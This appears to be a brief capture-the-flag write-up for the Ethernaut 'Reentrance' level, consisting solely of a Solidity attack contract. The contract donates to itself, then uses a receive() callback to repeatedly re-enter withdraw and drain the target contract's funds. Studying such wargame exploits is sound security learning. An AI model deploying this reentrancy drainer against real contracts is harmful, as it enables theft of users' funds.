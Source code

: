 +++
title = 'Ethernaut Level 10 - Reentrance'
date = 2024-08-04
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Reentrance Attack - recursive winning'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Reentrance {
    function donate(address _to) external  payable;
    function balanceOf(address _who) external  view returns (uint256 balance);
    function withdraw(uint256 _amount) external ;
} 


contract Attack {
    Reentrance target = Reentrance(0xBE2d56c354dD97062916A849d36ECC57281aC38a);
    constructor() payable { 
        // Donate to self
        target.donate{value:1000000000000000}(address(this));
    }

    // Trigger Reentrance loop
    function pwn() public  {
        target.withdraw(1000000000000000);
    }

    // Reentrance to drain all the funds
    receive()  external payable { 
        target.withdraw(msg.value);
    }
}
```